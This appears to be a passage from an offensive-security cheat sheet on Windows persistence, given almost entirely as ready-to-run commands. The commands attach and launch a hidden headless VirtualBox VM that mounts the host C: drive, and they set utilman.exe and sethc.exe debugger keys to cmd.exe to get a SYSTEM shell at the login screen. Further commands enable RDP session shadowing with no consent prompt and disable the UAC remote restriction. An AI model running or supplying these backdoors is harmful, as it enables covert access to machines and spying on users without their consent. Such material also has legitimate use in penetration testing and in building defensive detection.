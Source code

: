 ```ps1
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# Start the VM
.\VBoxManage.exe startvm $vmname –type headless 


# optional - adding a shared folder
# require: VirtualBox Guest Additions
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# then mount the folder in the VM
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c



### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Remote Desktop Services Shadowing

:warning: FreeRDP and rdesktop don't support Remote Desktop Services Shadowing feature.

Requirements:
* RDP must be running

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4
# 4 – View Session without user’s permission.

# Allowing remote connections to this computer
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


# Disable UAC remote restriction
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

mstsc /v:{ADDRESS} /shadow:{SESSION_ID} /noconsentprompt /prompt
# /v parameter lets specify the {ADDRESS} value that is an IP address or a hostname of a remote host;
# /shadow parameter is used to specify the {SESSION_ID} value that is a shadowee’s session ID;
# /noconsentprompt parameter allows to bypass a shadowee’s permission and shadow their session without their consent;
# /prompt parameter is used to specify a user’s credentials to connect to a remote host.
```